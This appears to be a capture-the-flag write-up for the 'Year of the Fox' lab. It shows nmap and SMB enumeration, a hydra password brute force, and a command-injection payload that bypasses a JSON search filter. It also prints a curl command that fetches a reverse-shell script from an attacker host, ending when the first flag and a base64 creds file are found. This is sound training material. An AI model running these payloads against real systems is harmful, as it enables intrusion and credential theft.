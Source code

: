 # Year of the Fox

Nmap scan:

```shell
# Nmap 7.94SVN scan initiated Thu Apr  4 10:16:16 2024 as: nmap -sCV -A -p- -T4 --min-rate=1000 -O -oN scan 10.10.52.219
Warning: 10.10.52.219 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.52.219
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/4%OT=80%CT=1%CU=30931%PV=Y%DS=2%DC=T%G=Y%TM=660E7
OS:05E%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST
OS:11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -20m00s, deviation: 34m38s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-04-04T10:18:17+01:00
| smb2-time: 
|   date: 2024-04-04T09:18:17
|_  start_date: N/A

TRACEROUTE (using port 3306/tcp)
HOP RTT       ADDRESS
1   224.89 ms 10.8.0.1
2   224.96 ms 10.10.52.219

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr  4 10:18:22 2024 -- 1 IP address (1 host up) scanned in 126.01 seconds
```

Syntax:

```shell
sudo nmap -sCV -A -p- -T4 --min-rate=1000 10.10.52.219 -O -oN scan
```

SMB server running on port 445. 

Listing shares with smbclient:

```shell
╰─❯ smbclient -L 10.10.52.219
Password for [WORKGROUP\deusx]:

        Sharename       Type      Comment
        ---------       ----      -------
        yotf            Disk      Fox's Stuff -- keep out!
        IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        YEAROFTHEFOX         YEAR-OF-THE-FOX

```

No anonymous access to any share.

Website running on port 80:

![[attachments/Pasted image 20240404102402.png]]

Requesting credentials.

Referring back to our nmap scan we have a message:

![[attachments/Pasted image 20240404102518.png]]

Testing some default credentials `admin:admin` and capturing the request using burpsuite

Request:

![[attachments/Pasted image 20240404115614.png]]

A GET request is sent with a Authorization header. The Authorization Header contains a base64 code and indicates the user of BASIC authentication. 

Decoding the base64 code:

![[attachments/Pasted image 20240404115820.png]]

Same credentials entered.

Now we need at least a possible username. We can try enumerating smb using `enum4linux`:

![[attachments/Pasted image 20240404115918.png]]

```shell
enum4linux -a 10.10.52.219
```

![[attachments/Pasted image 20240404120040.png]]

2 users found, fox and rascal.

We can bruteforce using hydra.

![[attachments/Pasted image 20240404122010.png]]

```shell
hydra -l rascal -P /usr/share/wordlists/rockyou.txt IP http-get -V
```

Login:

![[attachments/Pasted image 20240404122137.png]]

Searching for the file `fox` returns a fox.txt file

![[attachments/Pasted image 20240404122246.png]]

Imputing nothing into the search filed returns all files in the directory

![[attachments/Pasted image 20240404153836.png]]

Capturing the request using burpsuite and testing various payloads and researching online on how to bypass JSON filters led to the discovery of this payload:

**Request**

![[attachments/Pasted image 20240404154319.png]]

Payload

```
\";Command_Here \n
```

The payload is to be inserted inside of the double quotes:

![[attachments/Pasted image 20240404154604.png]]

**Response**

![[attachments/Pasted image 20240404154158.png]]

Testing with `ping` and `tcpdump`

**Request**

![[attachments/Pasted image 20240404154406.png]]

**Response**

![[attachments/Pasted image 20240404154431.png]]

```shell
sudo tcpdump  -i tun0 icmp
```

Using this to gain a reverse shell:

Transferring a reverse shell script using python server:

![[attachments/Pasted image 20240404155442.png]]

Payload:

```
\";curl http://10.8.129.243:8000/shell.sh --output /tmp/shell.sh \n
```

Adding executable permissions

![[attachments/Pasted image 20240404155557.png]]

Start netcat listener and execute the script

![[attachments/Pasted image 20240404155630.png]]

Shell access:

![[attachments/Pasted image 20240404155706.png]]

First flag obtained

![[attachments/Pasted image 20240404155902.png]]

Contents of `creds2.txt`

![[attachments/Pasted image 20240404160007.png]]

looks like base64


